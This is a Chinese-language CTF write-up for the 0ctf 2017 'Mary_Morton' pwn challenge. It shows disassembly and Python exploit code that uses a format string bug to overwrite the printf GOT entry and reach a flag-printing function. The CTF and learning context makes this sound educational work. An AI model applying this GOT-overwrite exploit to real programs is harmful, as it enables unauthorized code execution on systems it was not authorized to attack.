 # 0ctf quals 2017 : Mary_Morton
## **【原理】**
格式化字符串
## **【目的】**
掌握PWN题目的大致流程
## **【环境】**
Ubuntu
## **【工具】**
gdb、objdump、python
## **【步骤】**

### 总览

该题的设计比较简单，提供两种攻击方法——栈溢出和格式化字符串漏洞。该writeup使用了`formatStringExploiter`进行字符串漏洞进行攻击
Example:

```bash
$ ./mary_morton
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
2
%x
224dc6b0
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

*** stack smashing detected ***: ./mary_morton terminated
Aborted (core dumped)
```

### The Vulnerability


使用 `checksec`, 发现程序开启了`partial relro`。这意味着也已覆写 `GOT` 表。因为没有更多的保护措施，可以直接使用 `%n`覆写 `GOT`。

接下来考虑用什么覆写:

```
[0x00400960]> iz
vaddr=0x00400ad4 paddr=0x00000ad4 ordinal=000 sz=25 len=24 section=.rodata type=ascii string=Welcome to the battle !
vaddr=0x00400aed paddr=0x00000aed ordinal=001 sz=27 len=26 section=.rodata type=ascii string=[Great Fairy] level pwned
vaddr=0x00400b08 paddr=0x00000b08 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=Select your weapon
vaddr=0x00400b1f paddr=0x00000b1f ordinal=003 sz=5 len=4 section=.rodata type=ascii string=Bye
vaddr=0x00400b24 paddr=0x00000b24 ordinal=004 sz=7 len=6 section=.rodata type=ascii string=Wrong!
vaddr=0x00400b2b paddr=0x00000b2b ordinal=005 sz=16 len=15 section=.rodata type=ascii string=/bin/cat ./flag
vaddr=0x00400b3b paddr=0x00000b3b ordinal=006 sz=7 len=6 section=.rodata type=ascii string=-> %s\n
vaddr=0x00400b42 paddr=0x00000b42 ordinal=007 sz=29 len=28 section=.rodata type=ascii string=1. Stack Bufferoverflow Bug
vaddr=0x00400b5f paddr=0x00000b5f ordinal=008 sz=22 len=21 section=.rodata type=ascii string=2. Format String Bug
vaddr=0x00400b75 paddr=0x00000b75 ordinal=009 sz=20 len=19 section=.rodata type=ascii string=3. Exit the battle
```

非常简单， `/bin/cat ./flag`就可以:

```
[0x004008da]> /r 0x00400b2b
[0x00400c98-0x0060109f] data 0x4008de mov edi, str._bin_cat_._flag in fcn.004008da
```

向上一点，发现:

```
│           0x004008da      55             push rbp
│           0x004008db      4889e5         mov rbp, rsp
│           0x004008de      bf2b0b4000     mov edi, str._bin_cat_._flag ; 0x400b2b ; "/bin/cat ./flag"
│           0x004008e3      e8b8fdffff     call sym.imp.system         ; int system(const char *string)
│           0x004008e8      90             nop
│           0x004008e9      5d             pop rbp
└           0x004008ea      c3             ret
```

确定 `0x004008da` 就是覆写的目标.


### Step 1: exec_fmt

第一步是用 `FormatString` 创建 exec_fmt

```py
def exec_fmt(s):
    p.sendline("2")
    sleep(0.1)
    p.sendline(s)
    ret = p.recvuntil("1. Stack Bufferoverflow Bug",drop=True)
    p.recvuntil("Exit the battle \n")
    return ret
```
Step 2: Instantiate Class

接下来，实例化FormatStrin. 同时使用 `ELF` 载入PE.

```py
from formatStringExploiter.FormatString import FormatString
from pwn import *

# 从 pwntools载入，一切都交给工具吧...
elf = ELF("./mary_morton")

# 使用FormatString
fmtStr = FormatString(exec_fmt,elf=elf)
```

FormatString会搜索缓冲区，最终会看到：

```
Found the offset to our input! Index = 6, Pad = 0
```

发现缓冲区之后，准备开始攻击。因为有20秒的时间限制，所以选择更加快速的方法：

```py
fmtStr = FormatString(exec_fmt,elf=elf,index=6,pad=0,explore_stack=False)
```


### Step 3: 获取flag

现在已经有了实例化的`FormatString` 和需要调用的函数

```py
# flag输出程序
winner = 0x4008DA

# Connect up
connect()

# Instantiate the format string with known values
fmtStr = FormatString(exec_fmt,elf=elf,index=6,pad=0,explore_stack=False)

# Ask our format string to overwrite the printf GOT entry with our function
fmtStr.write_q(elf.symbols['got.printf'], winner)

# Hit enter and our flag should be printed out.
p.sendline("2")
p.interactive()

# ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
```

就...这么简单的获得到咯


## **【总结】**
虽然题很简单，但是毕竟我刚接触pwn，学到的还是很多的

